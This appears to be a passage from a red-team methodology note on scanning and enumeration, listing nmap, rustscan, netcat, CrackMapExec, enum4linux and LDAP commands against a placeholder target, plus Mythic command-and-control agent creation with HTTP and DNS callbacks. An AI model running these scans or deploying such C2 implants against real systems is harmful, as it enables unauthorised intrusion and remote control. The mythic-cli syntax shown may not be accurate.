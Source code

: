 
# **📡 Step 2: Scanning & Enumeration (T1595, T1046, T1592)**
**Objective:** Identify open ports, running services, vulnerabilities, and potential weaknesses.

### **2.1 Port Scanning & Service Fingerprinting**
- **Primary Method: Nmap Service Detection (T1046)**
  ```bash
  nmap -sC -sV -p- <target>
  ```
- **Alternative Methods:**
  - **Nmap with NSE Scripts:**
    ```bash
    nmap --script=vuln -p80,443 <target>
    ```
  - **RustScan (Faster Port Scan):**
    ```bash
    rustscan -a <target> --ulimit 5000
    ```
  - **Netcat (Manual Banner Grabbing):**
    ```bash
    nc -nv <target> 22
    ```

    also use telnet, can get postfix versions nicely like this too!
    

### **2.2 SMB & Active Directory Enumeration**
- **Primary Method: CrackMapExec (T1592.002)**
  ```bash
  crackmapexec smb <target> --shares
  ```
  
- **Alternative Methods:**
  - **Enum4Linux:**
    ```bash
    enum4linux -a <target>
    ```
  - **LDAP Enumeration:**
    ```bash
    ldapsearch -x -H ldap://<target> -s base namingContexts
    ```

    also check smbmap to get some basic shares, see if you can jump on anonymously...
    have a look around etc/ 

### **2.3 Mythic C2 Agent Deployment (T1071.001)** (more on this later in more depth)
- **Deploying a Mythic C2 Agent via SMB:**
  ```bash
  ./mythic-cli agent create -n <agent_name> --callback <callback_url>
  ```
- **Alternative Methods:**
  - **HTTP Beacon:**
    ```bash
    ./mythic-cli agent create -n <agent_name> --callback <URL> --profile http
    ```
  - **DNS C2 Implant:**
    ```bash
    ./mythic-cli agent create -n <agent_name> --callback <C2_DNS>
    ```

---